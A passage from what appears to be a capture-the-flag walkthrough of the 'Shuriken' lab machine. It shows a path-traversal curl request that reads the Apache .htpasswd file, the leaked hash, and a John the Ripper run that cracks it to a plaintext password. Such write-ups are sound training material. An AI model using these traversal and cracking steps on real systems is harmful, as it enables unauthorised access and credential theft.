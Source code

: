 ![](/assets/images/shuriken/s4.png)  

Find the password for the HTTP Authentication by checking for a htpasswd file:

```
crazyeights@es-base:~$ curl http://shuriken.local/index.php?referer=..//..//..//etc/apache2/.htpasswd
```

On the resulting page:

```
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
```

  

#### Crack with john:

```
crazyeights@es-base:~$ john --wordlist=lists/rockyou.txt --rules  shuriken_hash 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
9972761drmfsls   (developers)
```

We now have credentials: developers:9972761drmfsls

Change the line back in the hosts file so you can log in
